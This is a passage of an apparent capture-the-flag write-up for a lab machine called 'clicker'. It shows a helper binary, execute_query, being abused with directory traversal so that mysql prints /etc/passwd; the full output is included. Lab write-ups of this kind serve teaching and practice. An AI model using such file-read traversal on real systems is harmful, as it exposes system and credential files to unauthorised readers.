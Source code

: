 It gets a filename, appends it to the `mysql` command so that it’s pass as input, and runs it with `-v` which shows the file.

I’ll also note that while case 0 is a failure, the default case runs with `argv[2]` as the filename.

### File Read

I’ll try to read a file using `execute_query` with type 223 (or any other input that matches the default case) and directory traversal to get the file I want. It’s not able to read `user.txt`:

```
www-data@clicker:/opt/manage$ ./execute_query 223 ../user.txt
File not readable or not found

```

But `/etc/passwd` works:

```
www-data@clicker:/opt/manage$ ./execute_query 223 ../../../etc/passwd
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
jack:x:1000:1000:jack:/home/jack:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```